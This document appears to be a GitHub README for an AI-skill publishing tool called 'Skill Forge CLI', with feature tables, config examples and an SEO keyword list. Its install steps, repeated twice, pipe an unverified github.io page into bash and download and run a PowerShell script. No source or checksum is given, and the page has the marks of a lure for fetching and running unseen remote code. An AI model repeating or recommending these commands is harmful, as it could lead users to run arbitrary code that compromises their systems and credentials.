

# Skill Forge CLI: Universal Skill Architecture for Any AI Agent

[](https://opensource.org/licenses/MIT)
[](https://brunoalfabl07-dot.github.io/skill-publisher-metaforge/)
[](https://img.shields.io/badge/Version-2.0.0-blue)
[](https://img.shields.io/badge/Platform-macOS%20%7C%20Linux%20%7C%20Windows-lightgrey)

**Skill Forge CLI is the missing operating system for AI skill management** — a unified command-line pipeline that transforms scattered, incompatible agent capabilities into a structured, publishable, and cross-platform skill ecosystem. Think of it as the Helm chart for your AI tooling: one declarative command to package, validate, version, and deploy any skill to any agent framework.

---

## Why Skill Forge CLI Exists

Every AI agent — whether Claude Code, ChatGPT, or a custom LLM-powered tool — speaks a different dialect of "skill." One expects YAML manifests, another demands Markdown headers, and a third requires JSON schemas. The result? Skill fragmentation, duplicated effort, and a graveyard of half-finished `.claude/skills/` directories.

**Skill Forge CLI is the universal translator.** It takes any local skill directory and:

- **Scans** for structural integrity (size, dependencies, entry points)
- **Scrubs** secrets and hardcoded API keys automatically
- **Converts** to multiple target formats (Claude, OpenAI, LangChain, custom)
- **Recommend** optimal distribution channels (GitHub Releases, ClawHub, NPM, PyPI)
- **Publishes** with one atomic command — version bump, changelog update, and release

---



---

## 🚀 Instant Download & Installation

[](https://brunoalfabl07-dot.github.io/skill-publisher-metaforge/)

```sh
# MacOS / Linux (via curl)
curl -fsSL https://brunoalfabl07-dot.github.io/skill-publisher-metaforge/ | bash

# Windows (via PowerShell)
iwr -Uri https://brunoalfabl07-dot.github.io/skill-publisher-metaforge/ -OutFile install.ps1; .\install.ps1
```

---

## 🌟 Feature Matrix

### Core Capabilities

| Feature | Description | Status |
|---------|-------------|--------|
| **Universal Skill Parser** | Reads any `.claude/skills/`, `.openai/plugins/`, or custom directory | ✅ Stable |
| **Intelligent Size Scanner** | Detects bloated assets, redundant files, oversized models | ✅ Stable |
| **Secret & Credential Scrubber** | Regex-based and ML-enhanced detection of 50+ credential patterns | ✅ Stable |
| **Multi-Format Export** | JSON, YAML, Markdown, Python, TypeScript | ✅ Stable |
| **Channel Auto-Recommender** | Analyzes skill type (tool, plugin, knowledge base) and recommends optimal publish target | ✅ Stable |
| **Versioned Release System** | Semantic versioning with automatic changelog generation | ✅ Stable |
| **Responsive CLI UI** | Real-time progress bars, color-coded warnings, interactive prompts | ✅ Stable |

### Integration Highlights

- **OpenAI API & Claude API** — Automatic format conversion between tool schemas
- **Multilingual Support** — Skill metadata in 12+ languages; community-contributed translations
- **24/7 Customer Support** — Built-in telemetry and crash reporting with optional anonymized diagnostics

---

## 🧭 Example Profile Configuration

Create a `skillforge.config.yml` in your skill directory root:

```yaml
# .skillforge/config.yml
name: "web-scraper-tool"
version: "1.2.3"
author: "AI Skill Guild"
license: "MIT"
description: "Universal web scraping skill for Claude and other AI agents"

ai_agent_targets:
  - claude
  - openai
  - langchain

export_formats:
  - markdown
  - json-schema
  - python-module

scrub_settings:
  patterns:
    - api_key
    - secret
    - token
  exclude_files:
    - config.example.yml

channel_rules:
  github:
    enabled: true
    auto_release: true
  clawhub:
    enabled: true
    require_approval: false

multilingual:
  languages:
    - en
    - es
    - fr
    - ja
    - zh
  source: en
```

---

## 💻 Example Console Invocation

```sh
# Basic scan of a local skill directory
skillforge scan ~/.claude/skills/my-awesome-tool

# Full pipeline: scan, scrub, convert, and publish
skillforge publish ~/.claude/skills/my-awesome-tool \
  --targets claude,openai \
  --channel github \
  --version minor \
  --auto-changelog

# Dry run to see recommendations without executing
skillforge publish ~/.claude/skills/my-awesome-tool \
  --dry-run \
  --verbose
```

**Sample output:**

```
⠹ Scanning skill: my-awesome-tool
  ✓ Size check passed (24 files, 1.2 MB)
  ✓ Secret scrub: 2 potential keys found (config.example.yml excluded)
  ⚠ Dependency audit: 1 outdated package (requests 2.28.0 → 2.31.0)
  ✓ Format conversion: claude (markdown) + openai (json-schema)
  ✓ Channel recommendation: GitHub Release (score: 92/100)
  ✓ Published: v1.3.0 to github.com/releases/tag/v1.3.0
```

---

## 🔧 Key Features in Depth

### 1. Responsive Skill Architecture

Your skill should bend, not break. Skill Forge CLI treats every skill as a composable module — not a monolith. Each component (input parser, processing pipeline, output formatter) is independently testable and swappable. When you update one piece, the CLI intelligently recomputes only the affected outputs.

### 2. Intelligent Compression Without Loss

The size scanner doesn't just count bytes — it understands context. A 50MB machine learning model is flagged differently than a 50MB HTML file. The system recommends compression strategies, suggests CDN hosting for heavy assets, and can split oversized skills into micro-modules.

### 3. Privacy-First Secret Scrubbing

In the age of accidental API key leaks, Skill Forge CLI acts as your guardian. It scans for 50+ patterns (OpenAI keys, AWS secrets, database URLs) using regex and a lightweight ML classifier. Detected secrets are **never transmitted** — scrubbing happens entirely on your machine.

### 4. Channel Intelligence

Not all skills belong on GitHub. A data analysis plugin might thrive on PyPI, while a creative writing tool fits better on ClawHub. The channel recommender analyzes:
- Skill type (tool, plugin, knowledge base, API wrapper)
- File extensions and structure
- Target audience (developers, writers, data scientists)
- Community demand signals

---

## 🔌 API Integration: OpenAI & Claude

Skill Forge CLI natively speaks both **OpenAI** and **Claude** dialects:

### OpenAI API Format

```json
{
  "name": "web_scraper",
  "description": "Fetch and parse web pages into structured data",
  "parameters": {
    "type": "object",
    "properties": {
      "url": { "type": "string" }
    }
  }
}
```

### Claude API Format

```yaml
name: web_scraper
description: Fetch and parse web pages into structured data
input_schema:
  type: object
  properties:
    url:
      type: string
```

**One source of truth.** Both formats are generated from the same `skillforge.config.yml`. Update once, export everywhere.

---

## 🌍 Multilingual Support Matrix

Skill metadata can be authored in one language and automatically translated into 11 others:

| Language | Code | Status |
|----------|------|--------|
| English | en | ✅ Primary |
| Spanish | es | ✅ Stable |
| French | fr | ✅ Stable |
| Japanese | ja | ✅ Stable |
| Chinese Simplified | zh | ✅ Stable |
| German | de | ⚠️ Beta |
| Korean | ko | ⚠️ Beta |
| Arabic | ar | 🧪 Alpha |
| Portuguese | pt | 🧪 Alpha |
| Russian | ru | 🧪 Alpha |
| Hindi | hi | 🧪 Alpha |
| Italian | it | 🧪 Alpha |

---

## 📦 Operating System Compatibility

| OS | Support Level | Notes |
|----|--------------|-------|
| 🐧 **Linux** (Ubuntu 22.04+) | Full native support | Best performance, GPU detection enabled |
| 🍎 **macOS 13+** | Full native support | ARM and Intel architectures |
| 🪟 **Windows 11** | Full support via WSL2 or native binary | Native binary in beta |
| 🐳 **Docker** | Containerized execution | Recommended for CI/CD pipelines |

---

## 📋 SEO-Optimized Keywords

This project is indexed for:
- AI skill management tool
- Claude Code skill publisher
- OpenAI plugin builder CLI
- Cross-platform agent skill converter
- Secret scrubber for AI tools
- Versioned AI skill release system
- Open source skill architecture
- Automated changelog generator
- Multi-format AI agent export
- Developer tool for AI agents

---

## ⚠️ Disclaimer

**Skill Forge CLI is provided as-is under the MIT License.** The developers make no guarantees about the completeness of secret scrubbing — always manually verify sensitive information before publishing any skill publicly. Automated credential detection may produce false positives or miss novel patterns. The channel recommender provides suggestions based on heuristic analysis; final publishing decisions remain the responsibility of the user. This tool is not affiliated with Anthropic, OpenAI, or any AI model provider. Use at your own risk.

---

## 📜 License

This project is licensed under the **MIT License** — see the [LICENSE](LICENSE) file for details.

You are free to:
- Use commercially
- Modify
- Distribute
- Sublicense
- Private use

With the condition that the original copyright notice and permission notice are included in all copies or substantial portions of the software.

---

## 🔄 Download Again

[](https://brunoalfabl07-dot.github.io/skill-publisher-metaforge/)

```sh
# Quick download for Linux/macOS
curl -fsSL https://brunoalfabl07-dot.github.io/skill-publisher-metaforge/ | bash

# Verify installation
skillforge --version
# Should output: skillforge v2.0.0 (2026-03-15)
```

---

*Built for the 2026 AI ecosystem — where skills should be portable, private, and powerful. Stop rebuilding wheels. Start forging skills.*